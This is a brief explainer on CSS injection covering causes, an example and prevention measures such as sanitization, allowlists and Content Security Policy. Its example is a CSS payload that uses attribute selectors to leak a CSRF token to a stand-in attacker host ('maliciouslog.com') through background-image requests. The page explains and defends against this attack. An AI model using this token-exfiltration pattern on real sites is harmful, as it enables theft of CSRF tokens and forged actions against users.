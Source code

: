 # CSS Injection

## What is CSS Injection
CSS Injection occurs when arbitrary CSS code is injected into a trusted website, which is then rendered in the victim's browser.\
This allows an attacker to make UI redressing or phishing attacks against users of the application.\

## What causes CSS Injection
It can occur wherever the application allows user-generated CSS to be supplied or where stylesheets can be interfered with.

## Example
If an application lets users change the look of the site using CSS, an adversary may inject a CSS payload, which functions as a logger.\
This payload includes separate snippets for each possible variation of the required CSRF token.\

```
Input [name=csrf_token] [value=^rZHCnSzEp8dbI6atzagGoSYJkrPTz4om] {
     background-image: url(http://maliciouslog.com/log?rZHCnSzEp8dbI6atzagGoSYJkrPTz4om) :
}
Input [name=csrf_token] [value=^rZHCnSzEp8dbI6atzagGoSYJkrPTz4on] {
     background-image: url(http://maliciouslog.com/log?rZHCnSzEp8dbI6atzagGoSYJkrPTz4on) :
}
...
```

When the CSRF token matches any of the snippets included in the payload, the input tag will set the background image to a malicious URL.\
The adversary will see the request on the server, see the currently valid CSRF token and use it for other malicious activities.

## How to prevent CSS Injection
- Utilize context-dependent sanitization.
- Consider using an allowlist to prevent attackers from loading arbitrary style sheets.
- Reduce risk by not allowing users to customize the style of their personal pages with CSS.
- Implement a Content Security Policy that restricts where images and stylesheets can be loaded from.
- Sanitize for HTML tags such as style.

